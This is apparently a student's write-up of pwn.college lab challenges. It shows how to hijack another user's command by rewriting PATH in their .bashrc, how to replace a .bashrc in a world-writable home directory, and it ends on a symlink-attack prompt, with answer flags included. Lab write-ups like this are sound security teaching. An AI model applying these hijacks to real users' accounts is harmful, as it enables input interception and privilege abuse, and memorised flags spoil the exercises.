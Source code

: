 Your mission is to use your continued write access to Zardus's .bashrc to intercept this flag. Remember how you hijacked commands in the Pondering PATH module? Can you use that capability to hijack the flag_checker?
#### Solving :
Since it was mentioned similar to pondering paths ,i created a flag_checker command in my home directory and changed the  PATH env to ~ in .bashrc of zardus .The following is the flag_checker command
```
echo "Type the flag"
read flagg
echo "$flagg"
```
The .bashrc in /home/zardus
```
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
export PATH="/home/hacker"
```
![alt text](image-1.png)
>Flag :pwn.college{M0kdZoLh20lV5Ne-qKmvOK6-Jce.0VNzEzNxwyNwcTNxEzW}

### 1.3.3 : Overshared Directories
In this challenge, for convenience, Zardus opened up his home directory:

zardus@dojo:~$ chmod a+w /home/zardus
As you know, there are lots of sensitive files in that directory such as .bashrc! Can you replicate the previous attack with write access to /home/zardus instead of /home/zardus/.bashrc?
#### Solving :
chmod a+w /home/zardus gives write permission for all users.So i just deleted the existing .bashrc since the original .bashrc had write only permissions and copy pasted the .bashrc from previous question 
![alt text](image-2.png)
>Flag :pwn.college{oigzwO9_XAHWYri9b4bYAw0K0Id.0FM0EzNxwyNwcTNxEzW}
### 1.3.4 : 
Recall from the previous level that, having write access to /tmp/collab, the hacker user can replace that evil-commands.txt file. Also remember from Comprehending Commands that files can link to other files. What happens if hacker replaces evil-commands.txt with a symbolic link to some sensitive file that zardus can write to? Chaos and shenanigans!
